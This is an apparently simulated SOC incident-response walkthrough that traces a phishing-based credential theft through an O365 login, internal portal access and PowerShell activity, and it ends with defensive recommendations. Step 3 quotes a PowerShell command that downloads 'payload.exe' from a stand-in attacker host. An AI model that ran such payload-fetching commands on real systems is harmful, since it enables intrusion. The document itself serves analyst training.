 # 🧠 SOC Analyst Walkthrough - IR Sim 101

## 🗓️ Scenario Summary

The user `j.doe@acme.com` was tricked into submitting their Office 365 credentials via a phishing email. The attacker reused these valid credentials to log in to the corporate Office 365 environment and later used them again to access an internal portal (`intra.acmecorp.io`), the link for which was found in old email threads. Through this access, they executed PowerShell commands to perform reconnaissance and potentially stage a payload delivery.

---

## 🔍 Step 1: Suspicious Office 365 Login

- Data Source: `o365_login_events.csv`
- A successful login was detected from **Singapore**, a geo-location never previously seen for this user.
- The login was from an unfamiliar browser and occurred at 10:03 AM IST.
- Historical data showed this user typically logs in from India.

✅ **Alert Triggered**: `O365_Suspicious_Login_GeoMismatch`

---

## 🛠️ Step 2: Internal Portal Access Using Same Credentials

- Data Source: `internal_portal_logs.csv`
- The attacker used the same harvested credentials to log in to the internal portal within an hour of the O365 login.
- This portal is not publicly indexed; the attacker likely found its link from old internal emails.
- Logs show the attacker downloading a script named `powerscan.ps1`.

✅ **Alert Triggered**: `Internal_Portal_Access_Anomaly`

---

## 💻 Step 3: PowerShell Reconnaissance Activity

- Data Source: `powershell_activity.csv`
- On the user’s endpoint, the following suspicious PowerShell commands were observed:
  - `Get-LocalUser`
  - `Invoke-WebRequest http://attacker.site/payload.exe`
- The script `winupdate.ps1` was likely disguised as a legitimate update utility.
- No prior history of PowerShell CLI use on Jacob’s device.

✅ **Alert Triggered**: `Suspicious PowerShell Execution`

---

## 🧩 Incident Flow Summary

Phishing ➝ Credential Theft ➝ O365 Login ➝ Internal Portal Access ➝ PowerShell Execution


This attack demonstrates the use of **valid credentials** across multiple systems to simulate lateral movement, internal access, and command execution—all without malware or exploits.

---

## 🔐 Analyst Recommendations

1. **Immediate Response:**
   - Invalidate all sessions and reset credentials for `j.doe@acme.com`
   - Investigate IP activity from Singapore across O365 and internal systems

2. **Security Control Gaps:**
   - Enforce Conditional Access Policies (location/device-based)
   - Enable MFA on both Office 365 and internal portals

3. **User Awareness:**
   - Educate user on phishing recognition
   - Test email filters and strengthen phishing detections

4. **Endpoint Hardening:**
   - Disable PowerShell where unnecessary
   - Monitor for script execution with non-standard names

---

## 📘 Summary

This simulation highlights how real-world adversaries can use harvested credentials to escalate access in low-friction environments. No exploits or advanced malware—just smart abuse of access and poor segmentation.

This was simulated with low-resource datasets to reflect realistic analyst workflows without needing high-end hardware or lab setups.
